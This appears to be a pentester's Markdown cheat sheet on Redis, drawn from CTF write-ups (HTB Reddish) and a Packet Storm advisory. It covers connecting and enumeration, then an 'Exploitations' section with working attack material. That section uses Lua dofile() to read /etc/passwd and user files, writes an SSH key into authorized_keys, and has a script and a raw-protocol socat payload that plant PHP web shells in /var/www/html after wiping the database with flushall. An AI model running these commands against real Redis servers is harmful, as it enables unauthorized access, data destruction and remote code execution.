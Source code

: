 # Redis
## Introduction to Redis
Key value pair database

(nil) mean does not exist

## Connecting
```bash
redis-cli -h $IP -p $port -a $password -n $databasenumber
```

## Concepts
```redis
info		# server info
```
Keyspace section provide the main dictionary of each database

## Useful Commands
```
select $database/$table
keys * # all keys
get $keyname

# CMD KEY
config get * # retrieve current configuration of the database
config get dir # windows directory command

get user	
set user


```

[flushall](https://redis.io/commands/flushall/)
```bash
# Delete all the keys of all the existing databases, not just the currently selected one. This command never fails.
flushall [ASYNC | SYNC]
```

## Exploitations

```sql
eval dofile('/etc/passwd') 0 # enumerating files, with lua script dofile()
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0 # enumerating files, with lua script dofile()
```

[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
```bash
$ redis-cli -h 192.168.1.11 flushall$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
# Looks good. How to dump our memory content into the authorized_keys file? That’skinda trivial.
$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get di
1) "dir"
2) "/Users/antirez/.ssh"
3) 192.168.1.11:6379> config set dbfilename "authorized_keys"
4) OK
5) 192.168.1.11:6379> save
6) OK
```

[0xdf variation for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html)
```bash
# 0xDF 
# cmd.php:




 <? system($_REQUEST['cmd']); ?>




# 0xdfreddishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 127.0.0.1 flushall
cat cmd.php | redis-cli -x set subscribetoippsecandread0xdf
redis-cli -h 127.0.0.1 config set dir /var/www/html/
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 save
```

[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www) prefers *to talk raw Redis. Have a look here [https://www.compose.com/articles/how-to-talk-raw-redis/](https://www.compose.com/articles/how-to-talk-raw-redis/) and here [https://redis.io/topics/protocol](https://redis.io/topics/protocol). So, basically, we can do something like this:*
```bash
echo -ne '*1\r\n$8\r\nFLUSHALL\r\n*3\r\n$3\r\nSET\r\n$1\r\n1\r\n$32\r\n<?php shell_exec($_GET["e"]); ?>\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$5\r\nz.php\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$46\r\n/var/www/html/8924d0549008565c554f8128cd11fda4\r\n*1\r\n$4\r\nSAVE\r\n' | /tmp/socat - TCP:redis:6379
```

## References

[Redis Commands](https://redis.io/commands/)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)